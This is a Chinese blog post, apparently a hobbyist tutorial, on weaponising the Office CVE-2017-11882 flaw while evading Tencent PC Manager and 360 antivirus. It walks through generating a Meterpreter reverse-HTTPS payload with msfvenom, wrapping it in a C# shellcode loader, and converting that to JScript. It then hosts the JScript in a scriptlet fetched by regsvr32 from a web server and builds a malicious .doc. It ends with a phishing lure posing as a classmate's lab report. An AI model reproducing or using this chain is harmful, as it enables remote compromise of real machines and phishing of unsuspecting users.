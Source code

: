 ```yaml
---
layout: post
title: "Office CVE-2017-11882实战免杀"
date: 2017-11-25 0:20:56
categories: jekyll update
---
```


## 放在前面
&emsp;这里真的要感谢`@余弦`在`懒人在思考`的公众号里发过的关于MSF免杀payload的<a href="https://mp.weixin.qq.com/s/OxgJIIPaXMXqrY5lPdukdA">推文</a>，正是看着这篇文章，再联想到最近火热的`office cve-2017-11882`，才成功的构造了`绕过电脑管家和360`的`免杀的利用脚本`。

## 介绍
&emsp;因为关于office 11882的复现及利用都是使用mshta，这个利用方法已经被各杀软重点关注了，所以被拦截的概率会很大，上一篇复现时，连电脑管家都拦截提示了！！所以一个免杀的方法就是使用别的利用工具，而弦哥的这个推文刚好被我从公众号里搜索到，其实很多时候，我们虽然在众里寻他千百度，但很多人却`没有`“蓦然回首”。关注了这个漏洞的利用脚本的人都知道关键点是可注入的字符越长越好，方便利用，如果要换利用方式的话，替换注入字符就行，而这篇文章也是利用了这一点。

### 目录
* [一：生成payload](#1)
* [二：创建C#工程文件](#2)
* [三：将生成的exe转换成js](#3)
* [四：结合web server](#4)
* [五：office上场](#5)
* [六：关于钓鱼](#6)

### <a name="1"></a>一：生成payload
&emsp;使用`msfvenom`生成C#的payload

```shell
msfvenom  -p windows/meterpreter/reverse_https -a x86 -f csharp --platform windows -o https.csharp -b "\x00\xff" LHOST=192.168.1.231 LPORT=443 PrependMigrate=true PrependMigrateProc=svchost.exe
```

&emsp;虽然在弦哥的推文中说不用解释选线意义，但出于学习，我还是记录一下：
参数说明：-p：选择载荷模块；-a：系统架构（几位）；-f：生成文件的格式；-b：设定规避字符集； PrependMigrate 和 PrependMigrateProc是指明 Payload 执行后要将自己注入到一个新创建的宿主 svchost.exe 进程中去。
    
### <a name="2"></a>二：创建C#工程文件
&emsp;这里我使用vs2015，我这里.Net Framework本来是没有2.0的，是自己装的，vs2013就有。创建的新项目如下图： 
<div align="center">
    <img src="/images/posts/office1/1.png" width=80% />  
</div>

&emsp;将如下代码黏贴覆盖到 Program.cs 中：
```c++
using System;
using System.Threading;
using System.Runtime.InteropServices;
namespace MSFWrapper
{
    public class Program
    {
        public Program()
        {
           RunMSF();
        }
        public static void RunMSF()
        {
            byte[] MsfPayload = {
            //Paste your Payload here
        };
            IntPtr returnAddr = VirtualAlloc((IntPtr)0, (uint)Math.Max(MsfPayload.Length, 0x1000), 0x3000, 0x40);
            Marshal.Copy(MsfPayload, 0, returnAddr, MsfPayload.Length);
            CreateThread((IntPtr)0, 0, returnAddr, (IntPtr)0, 0, (IntPtr)0);
            Thread.Sleep(2000);
        }
        public static void Main()
        {
        }
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
```

&emsp;然后将先前生成的 Payload 的黏贴到代码中注释为“//Paste your Payload here”的地方。这里注意只需要复制那些0x开头的字符，而不需要整个复制下来粘贴。保存代码后，修改该工程的属性，将输出类型改为“Windows 应用程序”，启动对象改为“MSFWrapper.Program”, 然后保存。如下图：
<div align="center">
    <img src="/images/posts/office1/2.png" width=80% />  
</div>

&emsp;在Release 版中添加对X86的支持，然后编译出来，可以得到一个（项目名.exe）
<div align="center">
    <img src="/images/posts/office1/3.png" width=80% />  
</div>

### <a name="3"></a>三：将生成的exe转换成js
&emsp;这里我们使用DotNetToJScript ，这是一款可以将 .net 程序转换为 jscript 代码的工具，下载地址：<a href="https://github.com/tyranid/DotNetToJScript/releases">DotNetToJScript</a>。下载好后进入项目文件夹，运行下面的命令：
```shell
E:\tools\DotNetToJScript>DotNetToJScript.exe -l=JScript -o=MSFWrapper.js -c=MSFWrapper.Program 86.exe
```

&emsp;这里的86.exe是上面编译生成的文件。运行后可以得到MSFWrapper.js，接下来我们用msf开始监听，这里不细说，直接贴图：
<div align="center">
    <img src="/images/posts/office1/4.png" width=80% />  
</div>

然后我们就可以用下面的命令执行我们的 MSF Payload：
```shell
C:\windows\SysWOW64\cscript.exe MSFWrapper.js
```
<div align="center">
    <img src="/images/posts/office1/5.png" width=80% />  
</div>

运行后，电脑管家跟360跟啥事都没发生过一样。。。。而我们已经Get Shell了
<div align="center">
    <img src="/images/posts/office1/6.png" width=80% />  
</div>

&emsp;到了这里，我们已经可以基本确定弦哥的方法是可行的了。因为要跟office 结合起来，所以我们还需要继续。
    
### <a name="4"></a>四：结合web server
&emsp;本地bypass是不够的，我们需要结合web server扩大影响。既然能够转换为 js 代码，那么我们自然会想到 sct。我们将转换后的 js 代码黏贴到下面代码中的“//paste code here”：
```
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="Msf"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
    //paste code here
    </script>
</registration>
</scriptlet>
```
&emsp;保存为 msf.sct（后缀名可以更改，比如 jpg 等），这里注意，第一行一定要放在文件的第一行（第一行不能为空或其他），不然会出错，然后上传至 Web Server。

### <a name="5"></a>五：office上场
&emsp;我们需要注入：
```shell
regsvr32 /s /u /n /i:http://192.168.1.231/msf.sct c:\windows\SysWOW64\scrobj.dll
```
<div align="center">
    <img src="/images/posts/office1/7.png" width=80% />  
</div>

&emsp;才80个字节，现在的exp已经支持109字节了，所以，我们可以顺利的注入进去。这里我使用https://github.com/Ridter/CVE-2017-11882。命令如下：
```shell
root@Kali:~/hackhub/CVE-2017-11882# python Command109b_CVE-2017-11882.py -c "regsvr32 /s /u /n /i:http://192.168.1.231/msf.sct c:\windows\SysWOW64\scrobj.dll" -o hello.doc
```

&emsp;这里需要注意我们使用109b的脚本，不要使用43B的。
&emsp;PS：最厉害的exp已经支持605字节，已经很厉害了！！附上项目地址：
https://github.com/unamer/CVE-2017-11882/ 。这样一来姿势又多了。

&emsp;把生成的文件发送给靶机，并打开该doc。
<div align="center">
    <img src="/images/posts/office1/8.png" width=80% />  
</div>
<br>
<div align="center">
    <img src="/images/posts/office1/9.png" width=80% />  
</div>

可以看到，我们又接收到一个shell，而且注意到电脑管家是全程静默的，没有任何提示及报毒。
    
&emsp;接下来，我关掉电脑管家，启用360.。
<div align="center">
    <img src="/images/posts/office1/10.png" width=80% />  
</div>

&emsp;可见360的预防效果还是强于电脑管家，但如果用户点击允许运行的话，360也不能阻止恶意的网络连接，最终还是能get shell的。
<div align="center">
    <img src="/images/posts/office1/11.png" width=80% />  
</div>

&emsp;这里再安利一下卡巴斯基，老毛子的杀软，像这样的文件，老毛子会告诉你什么是残酷，我把文件从虚拟机复制出来。

<div align="center">
    <img src="/images/posts/office1/12.png" width=80% />  
</div>

能活过1秒算我输。。。。    


### <a name="6"></a>六：关于钓鱼
<div align="center">
    <img src="/images/posts/office1/13.png" width=80% />  
</div>

&emsp;这模板是不是很有诱惑~ 哈哈
&emsp;画风就变成这样：同学同学，我的实验报告写完了，你要。。。不。。。要。。。借鉴一下？？（手动给个滑稽）

